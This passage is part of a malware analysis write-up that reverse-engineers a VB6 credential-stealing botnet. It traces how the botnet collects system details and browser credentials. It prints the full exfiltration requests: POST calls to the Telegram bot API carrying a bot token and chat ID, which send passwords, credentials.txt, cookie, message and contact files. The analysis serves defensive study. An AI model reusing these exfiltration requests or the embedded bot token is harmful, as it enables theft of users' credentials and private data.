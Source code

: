 # Part-8: Back to DL_NATIVE_BOTNET1209

After executing ThunderFox in `sub_4640c4`, the botnet binary loops the `sub_4661f1` 0x1f4 times.

Upon exiting the loop, it calls the function `sub_46464c`, passing '79A4261B3FC61BA985DE6FE5C1C0B925' as an argument to `sub_46853c`, which returns BSTR('79A4261B3FC61BA985DE6FE5C1C0B925'). The returned value and 'ZiZRcjBKvueDrxRVSwAlfpuyMusWECie' are then passed as arguments to `sub_468D3a`, which returns '\credentials.txt'. This string is added to the end of "C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Templates", and we get the path ("C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Templates\credentials.txt") to the file generated in ThunderFox. The `scrrun.730A6560` function is called, which is a Microsoft Scripting Runtime library function. It takes the credentials path as argument.

Next, It then calls `sub_46798c`: 
- It uses the `MSVBVM60.Dim` and `MSVBVM60.Environ` functions to extract the current date and time, username, and computer name.
- It retrieves the Windows version using the function `sub_467e80`.
- Furthermore, it determines the processor type using the function `sub_46821b`.
![](https://i.imgur.com/1kQJsIf.png)

As the function continues, it performs string concatenation of `vbCrLf` blocks for new line. At address `0x464c6f` it calls `sub_4665c6`.
The function `sub_4665c6` performs:
- Generates the bot token.
![](https://i.imgur.com/IYo5eL7.png)

- Generates the chat ID.
![](https://i.imgur.com/ELXCECp.png)

- It jumps to the address `0x466cd4`, which uses `wdigest.dll` for digest authentication.
![](https://i.imgur.com/eXp4vQm.png)

- Following authentication, it creates an object of `MSXML2.ServerXMLHTTP.6.0` to perform HTTP requests. It sends the following POST request:
  ```
  POST
  https://api.telegram.org/bot5797428905:AAGaRRXGZN1d9GGFd3sE5x4uSpCGF0PU4m4/sendMessage?text=Passwords:::MSEDGEWIN10\IEUser
  Date: 06/19/2023 10:50:45 AM
  Username: IEUser
  CompName: MSEDGEWIN10
  Windows Version: Windows 8/10 - 64-bit
  &chat_id=1251788325
  ```
- Then request headers are set, and the request is sent at the address `0x467183`.

Similar steps are followed to send documents such as credentials.txt, Cookies{browsername}.txt, Messages{browsername}.txt, and Contacts{browser.txt}.

The POST request sent for documents is as follows:
```
POST
https://api.telegram.org/bot5797428905:AAGaRRXGZN1d9GGFd3sE5x4uSpCGF0PU4m4/sendDocument?chat_id=1251788325&caption=$caption&document=$PATH
```